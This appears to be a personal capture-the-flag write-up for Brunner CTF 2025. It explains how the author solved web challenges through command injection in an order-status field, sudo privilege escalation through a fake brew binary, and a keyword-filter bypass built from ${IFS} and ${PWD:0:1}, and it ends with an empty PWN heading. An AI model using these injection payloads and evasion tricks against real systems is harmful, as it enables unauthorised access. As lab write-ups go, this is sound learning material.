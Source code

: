 ```yaml
---
date : '2025-08-23T22:39:33+03:00'
draft : false
title : 'Brunner CTF 2025'
description: "Writeup for Brunner CTF 2025 where i solved a web challenge, pwn challenge, 2 Boot2Root and some easy/medium misc challenges"
tags:
- web
- pwn
---
```

# Web
## Caffeine (User)
While testing the `Check order status` found that it's just grep i right if it matches whatever like a customer name or coffee type or order id so i tried doing command injection AND WALLA `Lattee;ls` gave me everything then made `Lattee; cat user.txt` which had the Flag
## Caffeine (Root)
This was more challenging it had the flag at `/root/root.txt` which needed from me to find a privilege escalation way to read it.
When i did `sudo -l` i found that i can use /usr/local/bin/brew with sudo so why not i did it and found that it was a fake brew that i can just do 
```bash
Latte;sudo /usr/local/bin/brew /root/root.txt
``` 
And catched it.
![img](p1.png)
## Baking Bad
![img](p2.png)
command injection with many strings are banned like `cat`, `/`, `-`, `printf ` with space and many others, but i found that i can use `$`, `{}`, `:`, `.`, `=`,   and that was enough :).
first i found  that i can use env so i thought of taking any path in the env and take from it the `/` and use it my way
```bash
a;env 
```

And here we are
```bash
a;ls${IFS}${PWD:0:1} # To test that i really can use the slash now
a;f=ca;l=t;$f$l${IFS}${PWD:0:1}flag.txt # which is just cat `/flat.txt`
```


# PWN
## 

